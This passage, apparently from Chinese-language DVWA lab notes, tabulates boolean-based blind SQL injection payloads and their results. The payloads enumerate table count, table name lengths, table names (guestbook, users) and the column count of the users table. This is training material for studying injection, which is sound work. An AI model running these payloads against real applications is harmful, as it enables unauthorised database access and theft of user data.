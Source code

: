     |结果|dvwa                        |√      |
    

    >**猜表个数**

        
    |猜解次数  |payload|结果|
    |:-------:|:-----:|:----:|
    |1  |1' and (select count(table_name) from information_schema.tables where table_schema=database())>10 #|missing|
    |2  |1' and (select count(table_name) from information_schema.tables where table_schema=database())>5 # |missing|
    |3  |1' and (select count(table_name) from information_schema.tables where table_schema=database())>2 #|missing|
    |4  |1' and (select count(table_name) from information_schema.tables where table_schema=database())>1 #|exists|
    |5  |1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #|exists|
    |结果|2|√|

    ***

    >**猜表长**
    
    |猜解次数  |payload|结果|
    |:-------:|:-----:|:----:|
    |n|1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9 #|exists|
    |2n|1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=5 #|exists|
    |结果|长度分别为9和5|√|

    ***

    >**猜表名**

    |猜解次数  |payload|结果|
    |:-------:|:-----:|:----:|
    |1   |1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>88 #|exists|
    |2   |1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 #|exists|
    |3   |1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>110 #|missing|
    |.... |||
    |n   |1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103 #|exists|
    |N   |1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),9)='guestbook' #|exists|
    |2N  |1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),5)='users' #|exists|
    |结果  |guestbook，users|√|
    
    ***
    >猜解字段数

    |猜解次数  |payload|结果|
    |:-------:|:-----:|:----:|
    |1|1' and (select count(column_name) from information_schema.columns where table_name='users')>3 #|exists|
    |2|1' and (select count(column_name) from information_schema.columns where table_name='users')>9 #|missing|
    |3|1' and (select count(column_name) from information_schema.columns where table_name='users')>5 #|exists|
    |4|1' and (select count(column_name) from information_schema.columns where table_name='users')>7 #|exists|
    |5|1' and (select count(column_name) from information_schema.columns where table_name='users')=8 #|exists|
    |结果|8个字段|√|
